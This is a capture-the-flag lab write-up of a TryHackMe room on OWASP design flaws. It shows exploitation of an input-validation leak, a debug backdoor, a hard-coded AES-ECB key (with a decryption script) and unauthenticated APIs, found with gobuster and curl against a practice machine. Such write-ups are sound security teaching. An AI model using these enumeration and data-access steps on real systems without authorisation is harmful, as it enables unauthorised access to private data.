This write-up documents my approach to completing the TryHackMe room: [OWASP Top 10 2025: Application Design Flaws](https://tryhackme.com/room/owasptopten2025two)

## Task 1: Introduction

This room covers four categories of the OWASP Top 10 2025 that are closely related to architecture and system design weaknesses:

- Security Misconfigurations (AS02)
- Software Supply Chain Failures (AS03)
- Cryptographic Failures (AS04)
- Insecure Design (AS06)

These categories highlight how flawed assumptions, weak configurations, and poor architectural decisions can compromise entire systems.

**I am ready to learn about design flaw vulnerabilities!**

> No answer needed

---

## Task 2: AS02: Security Misconfigurations

Security misconfigurations occur when systems are deployed with unsafe defaults, incomplete configurations, or exposed services. Examples include:

- Default passwords left unchanged
- Public cloud storage buckets
- Debug mode enabled in production
- Unnecessary services exposed to the internet

Proper mitigation requires:

- Hardening default configurations
- Enforcing the principle of least privilege
- Keeping systems and dependencies up to date
- Performing regular security audits

**What's the flag?**

First, navigate to:

```bash
http://IP_MACHINE:5002/
```



The application exposes a user lookup endpoint:

```bash
/api/user/<user_id>
```

### Step 1: Testing the Endpoint

Accessing a valid user ID:

```bash
http://IP_MACHINE:5002/api/user/123
```



The API returns normal user information in JSON format.



This confirms that the endpoint directly processes user-supplied input without authentication.

### Step 2: Testing Input Validation

Next, we test how the application handles malformed input by modifying the user ID:

```bash
http://IP_MACHINE:5002/api/user/1%10
```

This payload includes an unexpected encoded character (`%10`) to test how the backend handles invalid input.

### Step 3: Exploiting the Misconfiguration

The server fails to properly validate the input and reveals unintended information.

As a result, the flag is exposed:



> THM(...)

---

## Task 3: AS03: Software Supply Chain Failures

Software supply chain failures occur when applications rely on compromised, outdated, or unverified third-party components, libraries, or AI models.

To secure the supply chain, developers must:

- Verify third-party components
- Sign and audit updates
- Secure CI/CD pipelines
- Monitor dependencies for known vulnerabilities

**What's the flag?**





### Challenge Overview

We were asked to identify and exploit a vulnerability in a **Data Processing Service** that imports an outdated third-party component:

lib/vulnerable_utils.py

The service exposed two endpoints:

POST /api/process
GET  /api/health

The health endpoint returned normal status, so the focus shifted to:

/api/process

### Step 1: Normal Input Testing

Sending normal input:

```json
{"data":"test"}
````

Response:

```json
{
  "result": "Output: TEST",
  "status": "success"
}
```

**Observations:**

- The input is converted to uppercase.
- Errors are returned directly in JSON format.

### Step 2: Error Triggering

Sending malformed input:

```json
null
```

Response:

```bash
'NoneType' object has no attribute 'get'
```

This revealed:

- The application calls `request.json.get("data")`
- There is no validation on `request.json`
- Raw exception messages are exposed to the user

This confirmed weak error handling and improper input validation.

### Step 3: Reviewing the Source Code

After reviewing the application logic, we found:

```python
if data == 'debug':
    return jsonify(debug_info())
```

The application contained a hidden debug backdoor.

This meant that sending `"debug"` as input would trigger internal debug functionality.

### Step 4: Exploitation

Sending:

```json
{"data":"debug"}
```

The response revealed sensitive internal information, including the flag:



> THM(...)

## Task 4: AS04: Cryptographic Failures

Cryptographic failures occur when encryption is implemented incorrectly or not implemented at all. Examples include:

- Weak algorithms such as MD5 or SHA-1
- Hard-coded encryption keys
- Using insecure modes like ECB
- Failing to encrypt sensitive data in transit or at rest

Prevention requires:

- Using modern cryptographic standards (AES-GCM, TLS 1.3)
- Secure key management solutions
- Regular key rotation
- Avoiding hard-coded secrets

**What's the flag?**



The page displayed:

```bash
Secure Document Viewer
Decryption feature unavailable
Encrypted Document:
Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe
```

---

### Step 1: Inspecting the Source

We found:

```js
<script src="/static/js/decrypt.js"></script>
```

So we accessed:

```bash
http://IP_MACHINE:5004/static/js/decrypt.js
```



Inside the file, we discovered:

```bash
Key: my-secret-key-16
Mode: AES-128-ECB
```

This is a clear cryptographic failure:

- Hard-coded encryption key
- Insecure ECB mode
- Client-side exposure of secrets

### Step 2: Decrypting the Data

We used Python:

```python
from Crypto.Cipher import AES
import base64

key = b"my-secret-key-16"

ciphertext = base64.b64decode(
"Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe"
)

cipher = AES.new(key, AES.MODE_ECB)
plaintext = cipher.decrypt(ciphertext)

print(plaintext.decode('utf-8').rstrip("\x00"))
```

The flag was successfully decrypted:



> THM(...)

---

## Task 5: AS06: Insecure Design

Insecure design refers to architectural or logic flaws that are built into the system from the beginning. These flaws result from:

- Poor threat modeling
- Incorrect assumptions
- Missing authorization checks
- Weak separation of trust boundaries

**What's the flag?**


The application claimed to be “mobile-only.” However, this restriction existed only at the UI level.

### Step 1: Directory Enumeration

We used Gobuster:

```bash
gobuster dir \
-u http://IP_MACHINE:5005 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-t 20
```

Since the scan was slow, we targeted the `/api` path directly:

```bash
gobuster dir \
-u http://IP_MACHINE:5005/api \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-t 20
```



We discovered:

```bash
/api/users
```

### Step 2: Accessing the API Directly

```bash
curl http://IP_MACHINE:5005/api/users
```

Response:

```json
{
  "admin": {
    "email": "admin@example.com",
    "name": "Admin",
    "role": "admin"
  },
  ...
}
```

This confirmed that the backend API was accessible without authentication.

### Step 3: Accessing Admin Messages

Eventually, the flag was found at:

```bash
curl http://IP_MACHINE:5005/api/messages/admin
```



> THM(...)

This demonstrates insecure design:
The system assumed only mobile clients would access the API, but no authentication or authorization was enforced on the backend.

---

## Task 6: Conclusion

Security design failures stem from weak architectural foundations. Security cannot be effectively “patched in” at the end of development.

Strong systems require:

- Clear security requirements
- Realistic threat modeling
- Proper authentication and authorization
- Secure configuration management
- A secure-by-design approach from the start

**I'm ready for the next room!**

> No answer needed
